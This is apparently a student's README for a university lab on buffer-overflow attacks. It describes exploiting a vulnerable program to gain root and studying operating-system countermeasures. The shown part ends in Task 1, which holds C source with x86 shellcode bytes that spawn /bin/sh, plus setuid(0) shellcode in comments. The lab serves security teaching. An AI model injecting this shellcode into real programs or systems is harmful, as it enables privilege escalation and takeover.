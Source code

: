 <p align="center">
    Lab 03 - Buffer Overflow Attack <br/>
    By Patrick O'Connor <br/>
    v75j556 <br/>
    CSCI 476 - Spring 2021 <br/>

</p>

# Table of Contents
- [ About this project ](#desc)
	- [ File Structure ](#struct)
- [ Task Answers ](#tasks)
- [Contact](#contact)
	- <a href= "mailto: p.oconnormsu@gmail.com?subject= Lab 01 OConnor"> Click here to send email</a>

<a name="desc"></a>
# About this project
In this lab, students will be given a program with a buffer-overflow vulnerability; their task is to develop a scheme to exploit the vulnerability, and ultimately gain root privileges on the system. In addition to the attacks we study, students will be guided through several protection schemes that have been implemented in the operating system as countermeasures to buffer-overflow attacks. Students will evaluate how the schemes work as well as their potential limitations.



Started: February 22, 2021
\
Last Updated: March 03, 2021
\
Due Date: March 02, 2021

<a name="struct"></a>
# File Structure
- lab03
	- README.md

<a name="tasks"></a>
#   Task 1: Getting Familiar with Shellcode
The ultimate goal of the buffer-overflow attacks we’ll study in this lab is to inject malicious code into the target program, so the code can be executed using the target program’s privileges. Shell-code is widely used in most code-injection attacks. In this task we will spend some time getting familiar with shell-code.
```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

// Binary code for setuid(0)
// 64-bit:  "\x48\x31\xff\x48\x31\xc0\xb0\x69\x0f\x05"
// 32-bit:  "\x31\xdb\x31\xc0\xb0\xd5\xcd\x80"

const char shellcode[] =
#if __x86_64__ // 64-bit shellcode
    "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e"
    "\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57"
    "\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
#else // 32-bit shellcode
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
    "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
    "\xd2\x31\xc0\xb0\x0b\xcd\x80"
#endif
```